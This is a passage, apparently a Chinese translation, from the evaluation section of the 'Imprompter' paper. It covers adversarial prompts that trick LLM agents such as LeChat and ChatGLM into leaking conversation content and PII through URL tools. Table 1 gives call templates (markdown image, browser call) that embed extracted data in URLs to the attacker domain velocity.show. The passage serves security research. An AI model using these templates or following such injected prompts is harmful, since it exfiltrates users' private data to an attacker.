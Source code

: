     我们的攻击在本地开源模型上的表现如何？我们的攻击正确地调用目标工具的频率超过80%，并且在信息泄露和个人身份信息泄露的设置中，在四个不同的模型（3个文本LLM和1个视觉LLM）中，外泄精度约为80%，涵盖了各种工具调用语法。

1.  (3)

    这些对抗样本在基于这些开源模型的商业LLM代理产品中表现如何（如果有的话）？我们的攻击在转移到Mistral LeChat和ChatGLM时，表现与本地测试相当。在信息泄露和个人身份信息泄露设置中，我们分别达到了高达70%和80%的外泄精度。

#### 攻击目标。

攻击者希望违反用户数据和与代理连接的资源的机密性和完整性。他们将通过迫使代理误用工具来实现这一目标。正如[2.2节](https://arxiv.org/html/2410.14923v2#S2.SS2 "2.2\. 从LLM到代理 ‣ 2\. 背景 ‣ Imprompter: 欺骗LLM代理进行不当工具使用")中讨论的那样，代理可能使用几种类型的工具，这些工具可以帮助代理预订酒店、执行代码、读取和发送电子邮件、操作日历等。我们调查了现实世界中现有的代理，并确定大多数代理通常具有与 URL 交互的工具。因此，为了展示最通用的结果，我们决定创建误用 URL 访问工具的对抗样本。代理的另一个共同点是用户与其进行对话，通常涉及私人信息（Mireshghallah 等， [2024](https://arxiv.org/html/2410.14923v2#bib.bib33)）。基于这一观察，我们创建了两个攻击目标：（1）信息泄露：对抗样本迫使 LLM 代理分析用户的敏感对话，提取出重要的、不间断和非填充的单词，然后通过访问嵌入这些单词路径中的特定 URL，将该信息泄露给攻击者；（2）PII 泄露：对抗样本迫使 LLM 代理使用 Web 访问工具提取 PII 以及一些来自对话的高级上下文信息。请注意，在任何情况下，我们都不期望攻击能够泄露所有信息或 PII，但将其中一部分暴露给攻击者已是一个警示信号。我们观察到，这些目标比那些肆意预订酒店或删除数据的攻击更具挑战性，原因如下：

+   •

    该攻击是动态的，依赖于分析用户的对话。每个用户的对话中将包含不同类型的个人身份信息（PII）和敏感信息。对抗样本必须学会从对话中提取相关信息。

+   •

    攻击必须生成一个完全合格、语法正确的 URL，该 URL 包含从用户对话中提取的信息，并以 URL 路径的形式进行格式化。这比生成一个固定的、与用户对话无关的工具使用命令要困难得多。

上述原因也解释了为什么我们的混淆对抗样本在性质上与其他基于优化的 LLM 攻击（如越狱攻击）有本质区别。

表1. 我们在评估中使用的每个 LLM 代理的目标调用语法。 \mintinline[]text¡Any¿ 表示对此没有要求，可以是任意字符。 \mintinline[]text¡payload¿ 表示从对话中提取的单词。 \mintinline[]textvelocity.show 是攻击者指定的域名。

| LLM 代理 | 工具 | 目标调用语法 |
| --- | --- | --- |
| LeChat | Markdown 图片 | \mintinline[breaklines]markdown![¡Any¿](https://velocity.show/¡payload¿) |
| ChatGLM |
| ChatGLM | 浏览器 | \mintinline[breaklines]pythonsimple_browser(velocity.show/¡payload¿) |
| 定制 Llama 代理 | 浏览器 | \mintinline[breaklines,escapeinside=##]xml¡function#=browse#¿”addr”:”velocity.show/#¡payload¿#”¡/function¿ |

#### 目标 LLM 和代理的选择。

我们的攻击设置需要目标 LLM 代理具备以下特性： (1) 开放权重的 LLM，属于与实际产品相同的家族； (2) 一种通用的 Web 访问工具，例如 URL 获取器或 Markdown 图片渲染支持； (3) LLM 必须能够适应我们的 GPU 资源（间歇性访问 3 个 NVIDIA A100 80G 和 2 个 NVIDIA A6000）。以下商业代理符合这些标准：Mistral 的 LeChat 和 ChatGLM。我们不知道这些代理使用的具体模型的权重，但可以合理推测它们与开放权重版本差别不大——Mistral-Nemo-0714 (12B) (Team, [2024](https://arxiv.org/html/2410.14923v2#bib.bib50)) 和 GLM-4-9B (GLM 等, [2024](https://arxiv.org/html/2410.14923v2#bib.bib8))。我们还实验了 Llama-3.1-70B，因为它是目前最好的开放权重模型之一 (Fourrier 等, [2024](https://arxiv.org/html/2410.14923v2#bib.bib6))。虽然基于该模型的代理（meta.ai）存在，但它不支持任何通用的 URL 访问工具⁶⁶6运行时环境会移除任何生成的 URL。然而，我们认为展示该大型开放权重模型的结果也很重要，因此我们使用 llama-stack-apps 框架⁷⁷7https://github.com/meta-llama/llama-stack-apps 构建了一个定制代理，该代理可以访问通用 URL 获取器。这三个代理都是文本专用的。

我们还展示了文本-图像 LLM 代理的结果。不幸的是，我们没有找到符合上述所有标准的商业代理。因此，我们对使用 PaliGemma-3B 模型进行的代理进行了本地实验，这是 Google 最新的视觉 LLM（Beyer 等, [2024](https://arxiv.org/html/2410.14923v2#bib.bib4)）。

表 [1](https://arxiv.org/html/2410.14923v2#S5.T1 "表 1 ‣ 攻击目标 ‣ 5. 评估 ‣ Imprompter: 诱使 LLM 代理错误使用工具") 展示了对上述所有模型和代理进行攻击时工具调用的语法。\mintinline[breaklines]textvelocity.show 是我们在本文中使用的攻击者指定的域名。它故意选择为不规则且不太像 URL 的形式。为了确保 URL 有效且能被 LLM 代理正确解析，我们要求 <payload> 中提取的术语通过 $/$ 分隔以形成路径（如图 [1](https://arxiv.org/html/2410.14923v2#S1.F1 "图 1 ‣ 1. 引言 ‣ Imprompter: 诱使 LLM 代理错误使用工具") 所示），或者通过 $+$ 来形成查询（并在前面加上 ?q=）。
